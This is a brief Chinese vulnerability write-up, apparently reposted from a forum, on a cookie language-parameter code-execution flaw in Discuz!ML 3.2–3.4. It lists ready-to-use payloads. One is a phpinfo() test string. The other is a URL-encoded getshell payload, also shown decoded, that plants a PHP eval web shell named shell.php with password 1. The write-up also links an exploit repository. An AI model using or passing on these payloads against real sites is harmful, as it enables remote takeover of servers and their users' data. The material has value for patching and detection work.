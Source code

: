 # Discuz！ML 3.x代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2880](https://www.zhihuifly.com/t/topic/2880)

# Discuz!ML 3.x 代码执行漏洞

## 一、漏洞简介

漏洞类型：代码执行漏洞
漏洞原因：Discuz!ML 系统对cookie中的l接收的language参数内容未过滤，导致字符串拼接，从而执行php代码。

## 二、影响范围

*   Discuz!ML V3.2-3.4

## 三、复现过程

cookie字段中会出现xxxx_xxxx_language字段，根本原因就是这个字段存在注入，导致的RCE
抓包找到cookie的language的值修改为

```
xxxx_xxxx_language=sc'.phpinfo().' 
```

getshell

```
%27.%2Bfile_put_contents%28%27shell.php%27%2Curldecode%28%27%253C%253Fphp%2520eval%2528%2524_POST%255B%25221%2522%255D%2529%253B%253F%253E%27%29%29.%27 
```

实际为：

```
'.+file_put_contents('shell.php',urldecode('<?php eval($_POST["1"]);?>')).' 
```

即可在路径下生成shell.php，连接密码为1

## https://github.com/ianxtianxt/discuz-ml-rce